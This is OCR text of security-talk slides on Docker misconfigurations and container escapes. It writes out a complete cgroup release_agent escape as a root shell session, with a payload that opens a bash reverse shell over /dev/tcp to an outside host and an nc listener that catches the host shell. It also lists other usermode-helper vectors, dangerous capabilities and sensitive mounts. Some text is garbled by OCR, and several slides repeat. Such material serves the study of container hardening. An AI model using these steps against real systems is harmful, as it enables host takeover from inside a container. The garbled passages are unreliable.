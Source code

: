 Usermode Helper Programs
Container
1. get overlay path from /etc/mtab "upperdir" 2. set payloadPath=$overlay/payload 3. mount /special/fs 4.echo $payloadPath > /special/fs/callback
5. trigg[ekr otrhwraiet faordedve]nt
Kernel exec /var/lib/docker/overlay2/..hash../diff/payload
helper_program= "/var/lib/docker/overlay2/..hash../diff/payload"

Usermode Helper Programs
Container
1. get overlay path from /etc/mtab "upperdir" 2. set payloadPath=$overlay/payload 3. mount /special/fs 4.echo $payloadPath > /special/fs/callback
5. trigg[ekr otrhwraiet faordedve]nt
Kernel exec /var/lib/docker/overlay2/..hash../diff/payload
helper_program= "/var/lib/docker/overlay2/..hash../diff/payload"

@_fel1x release_agent Escape
1. Finds + enables a cgroup release_agent 2. Enables notify_on_release in the cgroup 3. Finds path of OverlayFS mount for container 4. Sets release_agent to /path/payload 5. Payload redirects output to file in /path 6. Triggers the cgroup via empty cgroup.procs

OverlayFS
overlay=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
Thanks @_fel1x

Payload Example
root@85c050f5:/# cat /shell.sh #!/bin/bash /bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.2/9001 0>&1"

release_agent escape
root@85c050f5:/# mkdir /tmp/esc root@85c050f5:/# mount -t cgroup -o rdma cgroup /tmp/esc root@85c050f5:/# mkdir /tmp/esc/w root@85c050f5:/# echo 1 > /tmp/esc/w/notify_on_release root@85c050f5:/# pop="$overlay/shell.sh" root@85c050f5:/# echo $pop > /tmp/esc/release_agent root@85c050f5:/# sleep 5 && echo 0>/tmp/esc/w/cgroup.procs & root@85c050f5:/# nc -l -p 9001 bash: cannot set terminal process group (-1): Inappropriate ioctl for device bash: no job control in this shell root@ubuntu:/#

Usermode Helper Programs
- release_agent - core_pattern - binfmt_misc - uevent_helper - modprobe

Usermode Helper Programs
- release_agent - core_pattern - binfmt_misc - uevent_helper - modprobe

Bad idea #3: Excessive Capabilities

CAP_SYS_MODULE CAP_SYS_RAWIO CAP_SYS_ADMIN

// load a kernel module // access /proc/kcore, map NULL // "true root" - mount, debugfs, more

... --privileged allows all of the above.

Bad idea #4: Sensitive mounts
Access to the underlying host's /proc mount is a bad idea
docker run -v /proc:/host/proc

Bad idea #4: Sensitive mounts
Access to the underlying host's /proc mount is a bad idea
/host/proc/ is not protected by AppArmor
